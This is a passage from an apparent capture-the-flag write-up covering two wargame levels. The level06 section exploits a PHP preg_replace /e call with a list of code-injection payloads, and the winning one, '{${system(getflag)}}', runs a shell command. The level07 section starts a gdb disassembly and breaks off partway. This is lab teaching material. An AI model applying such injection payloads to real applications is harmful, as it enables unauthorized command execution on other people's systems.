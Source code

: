 ```php
#!/usr/bin/php
<?php
function y($m) { return $m; }

preg_replace(
    "/(\[x (.*)\])/e",
    "y(\"\\2\")",
    file_get_contents($argv[1])
);
?>
```

The regex matches lines of the format `[x somestring]` and will call the `y` function on `somestring`. We just had to find a way to inject code in `somestring`. ez. After 8 hours of hard labor, here is a sample of the things we put in `/tmp/exploit`:
```
[x system('getflag')]
[x "system('getflag')"]
[x ") . system('getflag') //"]
[x ") . $z //"]
[x ") . system($z) //"]
[x ") . system('getflag') . y("]
[x \"\) . system('getflag') . y\(\"]
[x ${system($z)}]
[x {${system($z)}}]
[x {${$z('getflag')}}]
[x {${system('getflag')}}]

WINNER: 
[x {${system(getflag)}}]
```

`./level06 /tmp/exploit lol`

Why is the curly bracket syntax so hard to find online? Why doesn't it work with quotes around `getflag`? Why was it impossible to concatenate strings? These are many questions we will never have the answer to.


## level07

A refreshing reverse engineering challenge after the PHP brain rot.
```
$ gdb ./level07
(gdb) break main
(gdb) run
(gdb) disassemble
Dump of assembler code for function main:
   0x08048514 <+0>:     push   %ebp
   0x08048515 <+1>:     mov    %esp,%ebp
   0x08048517 <+3>:     and    $0xfffffff0,%esp
   0x0804851a <+6>:     sub    $0x20,%esp
   0x0804851d <+9>:     call   0x80483f0 <getegid@plt>
   0x08048522 <+14>:    mov    %eax,0x18(%esp)
   0x08048526 <+18>:    call   0x80483e0 <geteuid@plt>
   0x0804852b <+23>:    mov    %eax,0x1c(%esp)
   0x0804852f <+27>:    mov    0x18(%esp),%eax
   0x08048533 <+31>:    mov    %eax,0x8(%esp)
   0x08048537 <+35>:    mov    0x18(%esp),%eax
   0x0804853b <+39>:    mov    %eax,0x4(%esp)
   0x0804853f <+43>:    mov    0x18(%esp),%eax
   0x08048543 <+47>:    mov    %eax,(%esp)
   0x08048546 <+50>:    call   0x8048450 <setresgid@plt>
   0x0804854b <+55>:    mov    0x1c(%esp),%eax
   0x0804854f <+59>:    mov    %eax,0x8(%esp)
```